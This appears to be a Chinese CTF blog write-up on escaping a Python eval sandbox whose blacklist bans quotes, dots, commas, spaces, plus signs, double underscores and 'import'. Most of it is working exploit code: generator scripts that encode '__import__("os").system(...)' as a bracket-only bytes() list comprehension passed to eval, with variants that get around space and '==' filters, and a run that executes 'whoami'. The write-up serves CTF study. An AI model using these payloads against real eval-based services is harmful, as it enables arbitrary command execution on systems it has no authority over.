





# Python 沙箱逃逸的通解探索之路-解法一分析


## 题目源码



黑名单包括：

1. 单引号
2. 双引号
3. 点
4. 逗号
5. 空格
6. 加号
7. 双下划线
8. exec
9. str
10. import

## 解法一 payload 分析

从执行上下文看，我们要构造出的 `CMD` 显然是一个字符串，因为下面会进行 `eval`。那么这里就有第一个问题：

- 如何构造出任意字符串？

因为上面的限制条件把单/双引号都干掉了，所以直觉上我们会选择用 `chr()` 函数和加号来拼接出字符串，但是加号也被干掉了。

而由于逗号也被干掉了，所以虽然能调用函数，但是也只能传一个参数。并且点也被限制掉了，所以就算可以 `__import__` 也没法调用方法。

对 Python CTF 题比较熟悉的橘友，第一反应可能是用：

```python
list(dict(whoami=1))[0]
```

这个 payload 还是比较好用的，但问题是，由于 `whoami` 作为参数名，无法携带一些特殊的字符，例如空格、引号、括号 等等，所以仅凭这个手法去构造的 exp，在实际的利用过程中不是非常实用。


所以需要寻找其他办法。经过一番寻找，我在内置的函数中发现了 `bytes()`：



也就是说，这个函数可以接收一个可迭代对象，里面是 0-256 的整数，然后就会返回一个 bytes：



由于 `range()` 是固定顺序的，无法得到我们要的任意字符串。那么接下来问题就变成了：

- **如何构造包含任意序列的整数的可迭代对象？**

如果能构造出 `[119, 104, 111, 97, 109, 105]` 这样的序列，那么就可以通过 `bytes()` 得到 `whoami`。由于不能使用 `,`，所以不能直接写一个列表或者集合之类的出来。

最先映入我脑海中的是**列表推导式**，因为可以通过 `if` 来从列表中捞需要的数据。那么问题是这个布尔表达式要怎么写呢？先思考一下：

对于一个有序的列表，若想捞出任意排序的字符串，不但需要固定下来每个字符的位置，还需要保证固定位置是特定的字符，所以肯定需要两个条件组合，那么 payload 就呼之欲出了：

```python
In [1]: bytes([
    ...:     j for i in range(256) for j in range(256)
    ...:     if i==0 and j == 119 or i == 1 and j == 104 or i == 2 and j == 111
    ...:     or i == 3 and j == 97 or i == 4 and j == 109 or i == 5 and j == 105
    ...: ])
Out[1]: b'whoami'  
```


对应的构造脚本：

```python
exp = '__import__("os").system("id")'

print(f"eval(bytes([j for i in range({len(exp)}) for j in range(256) if "+" or ".join([f"i=={i} and j=={ord(j)}" for i, j in enumerate(exp)]) + "]))")
```

可以把以上脚本拉入 pycharm 细细分析，代码过长可以参看[此处](https://blog.csdn.net/weixin_36338224/article/details/114693282)设置一下自动换行。




还有一个**空格**的限制，这个姿势在 OrangeKiller CTF 的第二期已经说过了，用 `[]` 来替代。构造脚本：

```python
exp = '__import__("os").system("id")'

print(f"eval(bytes([[j][0]for(i)in[range({len(exp)})][0]for(j)in[range(256)][0]if["+"]or[".join([f"i]==[{i}]and[j]==[{ord(j)}" for i, j in enumerate(exp)]) + "]]))")
```


这个 payload 可读性已经特别差了。。。

- 目前对于用中括号替代空格不是完全理解，应该就是转列表然后取列表第一个元素。

如果额外限制了 `==`，那么还可以用 `in` 来代替：

```python
exp = '__import__("os").system("id")'

print(f"eval(bytes([[j][0]for(i)in[range({len(exp)})][0]for(j)in[range(256)][0]if["+"]]or[".join([f"i]in[[{i}]]and[j]in[[{ord(j)}" for i, j in enumerate(exp)]) + "]]]))")
```

最后这个 exp 长这样：



如果 `bytes` 之类的内置函数被禁用了，可以通过 Unicode 来绕过，这个技巧我们已经见得多了，就不多说了。

所以，这个 payload 在大多数情况下已经可以通用了。

- 这个 payload 仅包含 字母、左右小/中括号、数字。


带入到题目源码试一下：

```python
exp = '__import__("os").system("whoami")'

a = f"eval(bytes([[j][0]for(i)in[range({len(exp)})][0]for(j)in[range(256)][0]if["+"]]or[".join([f"i]in[[{i}]]and[j]in[[{ord(j)}" for i, j in enumerate(exp)]) + "]]]))"

print(eval(a)) #mirror4s\mirror
```


## 参考链接

- [橘子杀手](https://cn-sec.com/archives/1322842.html)